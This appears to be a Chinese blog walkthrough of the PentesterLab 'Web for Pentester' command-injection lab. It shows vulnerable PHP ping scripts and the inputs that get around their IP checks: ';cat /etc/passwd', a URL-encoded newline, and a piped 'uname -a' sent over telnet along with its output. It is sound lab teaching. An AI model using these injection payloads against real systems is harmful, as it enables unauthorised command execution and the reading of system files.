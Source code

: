 ```yaml
---
title: 常见web漏洞-command execution
categories:
- web
tags:
- web
---
```


[资料下载：pentesterLab download](https://pentesterlab.com/exercises/web_for_pentester/)

---
![常见web漏洞](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/%E5%B8%B8%E8%A7%81web%E6%BC%8F%E6%B4%9E.png)

## 命令执行：
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/2.PNG)
#### 漏洞代码：
```
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```
system()函数，执行系统命令，
ping -c 2 ip，由于ip是客户端可控，导致命令执行。

---

#### 漏洞代码二：
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/3.PNG)
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
在执行命令之前，先正则表达式判断。

127.0.0.1;cat /etc/passwd
不满足正则表达式，所以返回无效的ip地址。

```
127.0.0.1
cat /etc/passwd
```
如果注入上面这样的代码，就会判断127.0.0.1是有效的ip，然后执行system函数

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/4.PNG)
将\n换行符url编码。

---

#### 漏洞代码三：
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
如果ip参数为正确的地址，则执行system()，否则就执行Location: example3.php?ip=127.0.0.1

- 效果展示
如果是有效地址，则ping给出的地址，如果是无效地址，就会ping 127.0.0.1。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18/5.PNG)

- 漏洞利用
原理：由于在正则表达式判断ip地址时候，如果不符合，没有中止运行，而是302跳转到“Location: example3.php?ip=127.0.0.1”。
所以可以用nc或者telnet，观察到命令的执行结果。

```
telnet 192.168.2.131 80
GET /commandexec/example3.php?ip=127.0.0.1|uname+-a HTTP/1.0
```

```
HTTP/1.1 302 Found
Date: Tue, 13 Nov 2018 08:52:44 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze15
X-XSS-Protection: 0
Location: example3.php?ip=127.0.0.1
Vary: Accept-Encoding
Content-Length: 1535
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>PentesterLab &raquo; Web for Pentester</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="Web For Pentester">
    <meta name="author" content="Louis Nyffenegger (louis@pentesterlab.com)">

    <!-- Le styles -->
    <link href="/css/bootstrap.css" rel="stylesheet">

    <style type="text/css">
      body {
        padding-top: 60px;
        padding-bottom: 40px;
      }
    </style>
    <link href="/css/bootstrap-responsive.css" rel="stylesheet">

  </head>

  <body>

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="https://pentesterlab.com/">PentesterLab.com</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="/">Home</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">
<pre>
Linux debian 2.6.32-5-686 #1 SMP Fri May 10 08:33:48 UTC 2013 i686 GNU/Linux
</pre>
      <footer>
        <p>&copy; PentesterLab 2013</p>
      </footer>

    </div> <!-- /container -->


  </body>
</html>

```

## 命令执行的函数
system、exec、passthru、shell_exec、popen、proc_open、pcntl_exec

[参考文档：命令执行函数](http://php.net/manual/zh/ref.exec.php)

## 命令执行漏洞的危害
可以使得攻击者反弹一个shell。
例如[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

[G0rmint（一句话写入log 提权）](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)
